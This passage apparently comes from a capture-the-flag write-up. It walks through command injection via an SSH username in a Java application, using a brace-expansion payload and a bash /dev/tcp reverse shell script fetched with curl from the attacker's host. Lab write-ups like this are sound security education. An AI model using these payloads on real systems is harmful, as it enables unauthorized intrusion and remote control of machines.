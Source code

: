 

That's command injection!

Alternatively, I can also get spaces added in Bash with [brace
expansion](https://www.gnu.org/software/bash/manual.md_node/Brace-Expansion.md),
so the username `0xdf;{ping,-c,1,10.10.14.6};#` works as well, making:



    ssh -i [key] 0xdf;{ping,-c,1,10.10.14.6};#@localhost



Which expands to:



    ssh -i [key] 0xdf;ping -c 1 10.10.14.6;#@localhost



### Shell

Java applications can be very tricky about piping and special characters
in processes, so I'll go the simple route of writing a Bash script to
disk and then running it. I'll create a reverse shell script locally
called `rev.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



I'll switch my requests over to Burp Repeater for quicker sending. I'll
use `curl` to fetch `rev.sh` from my server:

![](/img/image-20240227110456686.png)
